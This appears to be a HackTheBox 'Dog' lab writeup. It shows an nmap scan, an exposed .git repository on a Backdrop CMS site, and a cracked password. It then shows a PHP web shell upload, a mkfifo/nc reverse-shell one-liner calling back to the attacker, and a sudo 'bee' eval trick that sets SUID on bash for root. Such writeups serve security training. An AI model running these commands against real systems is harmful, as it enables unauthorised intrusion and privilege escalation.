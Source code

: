 ```yaml
---
title: "Dog - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Dog
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Dog
![](https://kar0nx.github.io/assets/images/writeup/426830ea2ae4f05f7892ad89195f8276.webp)
 
## Reconnaissance

IP: 10.10.11.58
### NMAP

```
nmap -T4 -A -p- 10.10.11.58
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 03:21 EDT
Nmap scan report for 10.10.11.58
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   31.36 ms 10.10.14.1
2   31.70 ms 10.10.11.58

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
```


## Website
### Site

http://10.10.11.58/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311082435.png)

http://10.10.11.58/.git/logs/refs/heads/master

crack and we have tiffany:BackDropJ2024DS2024

https://www.exploit-db.com/exploits/52021

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311083020.png)

http://10.10.11.58/?q=admin/installer/manual

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311103254.png)

```
tar -czvf shell.tar.gz shell
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311111737.png)

```
http://10.10.11.58//modules/shell/shell.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311111836.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 4444 >/tmp/f
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311112404.png)

TTY shell

```
/bin/sh -i
```

```
su johncusack
	BackDropJ2024DS2024
```
## Privilege Escalation

```
sudo -l
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311115343.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('chmod u+s /bin/bash');" 
bash -p
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311115256.png)


